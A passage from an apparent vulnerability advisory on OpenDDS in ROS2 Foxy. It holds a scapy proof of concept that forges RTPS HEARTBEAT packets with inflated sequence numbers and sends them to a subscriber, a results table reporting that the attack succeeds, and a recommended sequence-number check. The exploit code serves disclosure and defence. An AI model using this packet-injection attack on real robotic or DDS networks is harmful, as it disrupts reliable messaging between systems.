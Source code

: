 ```python
    ]
 


class RTPSSubMessage_HEARTBEAT(Packet):
    name = "RTPS HEARTBEAT"
    fields_desc = [
        XByteField("submessageId", 0x07),
        XByteField("flags", 0x01),
        XShortField("octetsToNextHeader", 0x1c00),
        X3BytesField("readerEntityIdKey", 0x000012),
        XByteField("readerEntityIdKind", 0x04),
        X3BytesField("writerEntityIdKey", 0x000012),
        XByteField("writerEntityIdKind", 0x03),
        LongField("firstAvailableSeqNumber", 0xf423f00),  # Use LELongField here
        LongField("lastSeqNumber", 0xf423f00),           # Use LELongField here
        XIntField("count", 0xf423f00)
    ]



for _ in range(2):  
	packet = Ether(src="02:42:ac:11:00:02" ,dst="02:42:ac:11:00:03") / \
		IP(src="172.17.0.2",dst="172.17.0.3") / \
		UDP(sport=33524, dport=7411) / RTPS() / RTPSSubMessage_HEARTBEAT()
	sendp(packet, iface="docker0")
```

## 4.2. Attack Outcome
- **QoS - `Reliable Pub/Sub`**
    - [Reliable Publisher] Talker → [Reliable Subscriber] Listener
      
|ROS2 Version|OpenDDS|RMW - OpenDDS|Attack Result|
|:---:|:---:|:---:|:---:|
|FOXY|0.1.0|1.0.1-1|O|

<br/>

# 5. Recommendations

- **A code must exist to verify the sequential increase in Seqenunce.**
    - ex) example code
    - When the previous sequence number is saved and the value of the currently incoming sequence number is not the same as the previous sequence number +1, it must be processed as a malformed packet.
    - prevSeqN in the code below is heartbeat last sequence number of the prior heartbeat packet and **`hb_last`** is last sequence number of the current heartbeat packet.
    ```c
    #/OpenDDS/OpenDDS/blob/branch-DDS-3.25/dds/DCPS/transport/rtps_udp/RtpsUdpDataLink.cpp: #1965
    #prevSeqN is hb_last of the prior heartbeat packet
    if (!(hb_first < 1 || hb_last < 0 || hb_last < hb_first.previous() || hb_last == prevSeqN + 1)) {
    ```

